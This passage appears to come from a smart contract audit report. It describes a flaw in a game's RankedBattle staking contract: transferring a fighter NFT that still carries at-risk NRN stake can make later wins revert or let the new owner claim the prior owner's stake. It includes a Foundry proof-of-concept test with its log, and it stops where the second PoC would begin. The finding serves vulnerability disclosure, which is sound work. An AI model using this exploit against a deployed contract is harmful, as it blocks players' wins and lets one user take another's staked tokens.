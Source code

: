             emit ReclaimedStake(fighterId, nrnToReclaim);
        }
```
- If amountLost[address( User B)] is zero or is less than nrnToReclaim, meaning he hasn't staked any NRN before, or he has not reached a certain loss, the transaction would revert due to arithmetic underflow or overflow.
- If amountLost[address( User B)] is greater than nrnToReclaim, meaning user B is at a certain loss in previous battles(with other NFTs), he could earn some at-risk-stake of the user A without any penalty in this round.
The PoC for the first case (in ```RankedBattle.t.sol)```:
```
    function testRevertAfterTransferAtRisk() public {
        address oldPlayer = vm.addr(3);
        address newPlayer = vm.addr(4);

        _mintFromMergingPool(oldPlayer);

        _fundUserWith4kNeuronByTreasury(oldPlayer);

        vm.prank(oldPlayer);
        _rankedBattleContract.stakeNRN(4000 * 10 ** 18, 0);

        emit log_named_uint("NRN in _rankedBattleContract" , _neuronContract.balanceOf(address(_rankedBattleContract)) / 1 ether);


        // assertEq(_rankedBattleContract.amountStaked(0), 3_000 * 10 ** 18);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 2, 1500, true); // lose 1 game

        emit log_named_uint("oldPlayer staked NRN in _rankedBattleContract" , _rankedBattleContract.amountStaked(0) / 1 ether);
        emit log_named_uint("NRN in _rankedBattleContract" , _neuronContract.balanceOf(address(_rankedBattleContract)) / 1 ether);

        vm.startPrank(oldPlayer);
        _rankedBattleContract.unstakeNRN(_rankedBattleContract.amountStaked(0),0);
        emit log_named_string("after unstaking, token0's lock status", _fighterFarmContract.fighterStaked(0)?"locked":"unlocked");

        _fighterFarmContract.transferFrom(oldPlayer,newPlayer,0);
        vm.stopPrank();

        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 2, 1500, true); // lose 1 game
        emit log_string("new player can lose in game");
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 1, 1500, true); // tie 1 game
        emit log_string("new player can tie in game");        
        vm.prank(address(_GAME_SERVER_ADDRESS));
        vm.expectRevert(); // <= would revert here!!
        _rankedBattleContract.updateBattleRecord(0, 50, 0, 1500, true); // win 1 game
        emit log_string("new player can not win in game");        
    }
```
The result log for the first case:
```
[PASS] testRevertAfterTransferAtRisk() (gas: 992146)
Logs:
  NRN in _rankedBattleContract: 4000
  oldPlayer staked NRN in _rankedBattleContract: 3996
  NRN in _rankedBattleContract: 3996
  after unstaking, token0's lock status: unlocked
  new player can lose in game
  new player can tie in game
  new player can not win in game
```
The PoC for the second case (in RankedBattle.t.sol):
```